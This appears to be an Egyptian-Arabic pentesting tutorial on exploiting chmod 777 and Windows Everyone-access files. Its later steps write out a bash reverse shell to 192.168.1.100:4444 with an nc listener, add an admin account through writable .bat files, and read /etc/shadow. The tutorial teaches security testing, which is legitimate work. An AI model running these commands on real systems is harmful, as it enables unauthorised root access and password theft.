 تمام، هشرح لك "Over-permissive File Permissions (chmod 777 in Linux, Everyone Access in Windows)" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هي Over-permissive File Permissions؟**

#### **الشرح العميق:**
"Over-permissive File Permissions" يعني إن الملفات أو المجلدات في نظام التشغيل عندها صلاحيات مفتوحة أكتر من اللازم، يعني أي حد يقدر يقرأها، يعدلها، أو ينفذها من غير قيود. ده بيحصل بسبب سوء إعدادات من المسؤول (Admin) أو عشان تسهيل حاجة مؤقتة واتنسيت. في لينكس، ده بيظهر كـ `chmod 777`، وفي ويندوز كـ "Everyone" access. المشكلة إن الصلاحيات الزيادة دي بتفتح الباب للمهاجمين عشان يستغلوا الملفات دي في تصعيد الصلاحيات أو تنفيذ هجمات.

- **في لينكس (chmod 777):** 
  - الـ 7 الأولى = المالك (Owner) يقدر يقرأ (r)، يكتب (w)، ينفذ (x).
  - الـ 7 التانية = المجموعة (Group) نفس الحاجة.
  - الـ 7 التالتة = أي حد تاني (Others) نفس الحاجة.
  - يعني الكل يقدر يعمل أي حاجة في الملف.

- **في ويندوز (Everyone):** 
  - لما تعمل "Full Control" لمجموعة "Everyone"، يعني أي مستخدم على النظام (حتى الضيوف) يقدر يعدل أو يمسح أو ينفذ الملف.

#### **الأدوات والأوامر العملية:**
1. **فحص الصلاحيات في لينكس:**
   - `ls -l /path/to/file`.
   - لو لقيت `-rwxrwxrwx`، يبقى 777 (الكل يقدر يعمل كل حاجة).
   - مثال: `ls -l /etc/script.sh` -> `-rwxrwxrwx 1 root root`.

2. **فحص الصلاحيات في ويندوز:**
   - أمر في CMD: `icacls "C:\path\to\file"`.
   - لو لقيت `Everyone:(F)`، يعني Full Control للكل.
   - مثال: `icacls "C:\scripts\test.bat"` -> `Everyone:(F)`.

3. **البحث عن ملفات 777 في لينكس:**
   - `find / -perm -777`.
   - هيدور على أي ملف أو مجلد في النظام صلاحياته 777.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب باب بيتك مفتوح وكاتب على الدولاب: خد اللي عايزه! في لينكس 777 يعني الكل يلعب في الملف، وفي ويندوز Everyone يعني حتى الجيران يقدروا يخشوا يغيروا حاجات."

---

### **2. ليه دي مشكلة كبيرة؟**

#### **الشرح العميق:**
الصلاحيات المفتوحة دي بتخلّي أي مستخدم (حتى لو كان ضعيف زي www-data في لينكس أو Guest في ويندوز) يقدر يستغل الملفات دي. لو الملف ده مهم (زي ملف إعدادات، سكربت، أو حتى برنامج حساس)، المهاجم يقدر:
- **يعدل الملف:** يضيف كود ضار.
- **ينفذه:** لو كان سكربت أو برنامج، يشغله بصلاحيات أعلى.
- **يقراه:** يسرق بيانات حساسة زي كلمات سر.

في الـ Pentesting، الملفات دي بتكون كنز لأنها بتفتح الباب لتصعيد الصلاحيات (Privilege Escalation) بسهولة.

#### **الأدوات والأوامر العملية:**
1. **في لينكس (تعديل ملف 777):**
   - لو لقيت ملف زي `/usr/local/bin/script.sh` بصلاحيات 777:
     - `echo "whoami" > /usr/local/bin/script.sh`.
     - `bash /usr/local/bin/script.sh` -> لو رجعلك `root`، يبقى الملف بيتعمل بصلاحيات عالية.

2. **في ويندوز (استغلال Everyone):**
   - لو لقيت ملف زي `C:\Scripts\run.bat` بصلاحيات Everyone:
     - `echo net user hacker password /add > C:\Scripts\run.bat`.
     - نفذه: `C:\Scripts\run.bat` -> هيضيف مستخدم جديد.

3. **البحث عن ملفات حساسة:**
   - في لينكس: `find / -perm -777 -type f 2>/dev/null` (يجيب ملفات بس).
   - في ويندوز: `dir /s /p "C:\" | findstr "Everyone"`.

#### **خلاصة بالعامية المصرية:**
"المشكلة إنك لما تسيب حاجتك مفتوحة كده، أي حد يقدر يخش يلعب فيها. زي ما تكون سايب فلوسك في الشارع وكاتب عليها: خدها! المهاجم بيلاقي الكنز ده ويستخدمه عشان يبقى الكبير."

---

### **3. إزاي نستغلها في الهجمات؟**
- **الهدف:** لو لقيت ملف بصلاحيات مفتوحة، تستخدمه عشان تاخد صلاحيات أعلى (تصعيد أفقي أو عمودي).
- **مثال واقعي:** لو ملف سكربت بيتنفذ تلقائيًا (زي Cron Job في لينكس) وصلاحياته 777، تقدر تغير محتواه وتاخد shell كـ root.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي حاجة مفتوحة كده، زي ما تكون لقيت باب مخزن مفتوح، تدخل تاخد اللي عايزه وتطلع الكبير بتاع الحتة!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- لو داخل سيرفر لينكس:
  - `find / -perm -777 -type f 2>/dev/null`.
- لو داخل ويندوز:
  - `icacls "C:\*"` أو استخدم PowerShell:
    - `Get-Acl -Path "C:\Scripts" | Format-List`.

#### **الخطوة 2: إيجاد ملفات قابلة للاستغلال**
- في لينكس:
  - افترض لقيت `/usr/local/bin/backup.sh` بصلاحيات 777:
    - `ls -l /usr/local/bin/backup.sh` -> `-rwxrwxrwx`.
- في ويندوز:
  - افترض لقيت `C:\Scripts\service.exe` بصلاحيات Everyone:
    - `icacls "C:\Scripts\service.exe"` -> `Everyone:(F)`.

#### **الخطوة 3: تعديل الملف**
- في لينكس:
  - `echo "/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /usr/local/bin/backup.sh`.
  - انتظر لو السكربت بيتعمل تلقائيًا (Cron Job)، أو نفذه لو تقدر:
    - `bash /usr/local/bin/backup.sh`.
  - على جهازك: `nc -lvnp 4444` -> هتاخد shell.
- في ويندوز:
  - `echo net localgroup administrators hacker /add > C:\Scripts\service.bat`.
  - نفذه: `C:\Scripts\service.bat` -> هيضيفك كأدمن.

#### **الخطوة 4: تصعيد الصلاحيات**
- في لينكس (من الـ Shell):
  - `id` -> لو `www-data`، حاول تصعد:
  - لو الملف بيتعمل كـ root (زي Cron Job):
    - `id` -> `uid=0(root)` (نجحت).
- في ويندوز:
  - `whoami` -> لو `nt authority\system`، بقيت الكبير.
  - لو لسه user، أعد تشغيل النظام وادخل بالحساب الجديد.

#### **الخطوة 5: توثيق واستغلال**
- سجل الملفات اللي لقيتها واللي عدلتها.
- لو وصلت root/System:
  - لينكس: `cat /etc/shadow` (تسريب كلمات السر).
  - ويندوز: `net user` (تشوف كل المستخدمين).
- قدم تقرير للعميل يوضح الخطر.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت كنز في بيت مفتوح، غيرت فيه حاجة صغيرة، وفجأة بقيت الكبير بتاع العمارة! الصلاحيات المفتوحة دي طريقك للفوز في اللعبة."

---

### **الخلاصة النهائية:**
Over-permissive File Permissions (زي 777 في لينكس أو Everyone في ويندوز) هي ثغرة كبيرة بتخلّي أي حد يقدر يلعب في الملفات. في الـ Pentesting، دور عليها، استغلها عشان تاخد shell أو تصعد صلاحياتك، وورّي العميل إن النظام بتاعه زي بيت مفتوح لأي حد! بالأدوات زي `find` و`icacls`، تقدر تكتشفها وتستخدمها عشان تبقى البطل بتاع الساحة!